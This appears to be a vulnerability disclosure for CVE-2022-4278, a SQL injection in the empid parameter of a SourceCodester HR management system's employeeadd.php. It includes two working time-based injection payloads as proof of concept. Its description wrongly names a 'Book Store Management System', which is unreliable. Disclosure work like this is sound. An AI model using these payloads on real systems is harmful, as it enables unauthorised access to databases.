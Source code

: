 # [CVE-2022-4278](https://vuldb.com/?id.214775)

SourceCodester Human Resource Management System 1.0 /hrm/employeeadd.php empid sql injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A SQL Injection vulnerability in /hrm/employeeadd.php with `empid` handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

# Source code analysis

The `empid` handler don't have input validation from user.

![](images/empid.png)

# Proof of Concept

Login as admin and go to `http://localhost/hrm/employeeadd.php`

Payload SQLi with sleep(1): /hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-

![](images/sqli-sleep-1.png)

Payload SQLi with sleep(10): /hrm/employeeadd.php?empid=1%27%20or%20sleep(10)%20--%20-

![](images/sqli-sleep-10.png)

Check payload at MySQL log:

![](images/mysql-log.png)